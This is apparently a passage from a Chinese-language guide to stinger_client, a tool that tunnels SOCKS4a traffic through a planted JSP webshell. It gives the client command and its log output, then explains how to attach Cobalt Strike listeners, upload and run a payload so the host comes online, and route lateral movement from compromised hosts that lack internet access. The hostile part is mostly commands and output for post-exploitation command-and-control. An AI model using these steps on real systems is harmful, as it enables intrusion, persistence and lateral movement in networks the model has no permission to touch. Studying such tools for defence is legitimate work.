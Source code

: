 - stinger_client命令行执行`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`
- 如下输出表示成功

```php
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 192.168.3.11:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 192.168.3.11:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```

- cobalt strike添加监听,端口选择RAT Config中的Handler/LISTEN中的端口(通常为60020),beacons为192.168.3.11(example.com的内网IP地址)
- 生成payload,上传到主机运行后即可上线
- 横向移动到其他主机时可以将payload指向192.168.3.11:60020即可实现出网上线

#### **定制Header及proxy**

- 如果webshell需要配置Cookie或者Authorization,可通过--header参数配置请求头

```php
--header "Authorization: XXXXXX,Cookie: XXXXX"
```

- 如果webshell需要通过代理访问,可通过--proxy设置代理

```php
--proxy "socks5:127.0.0.1:1081"
```

### 测试

> 攻击机：192.168.1.89

假设我们在拿下一台目标主机，但是无法连接外网。
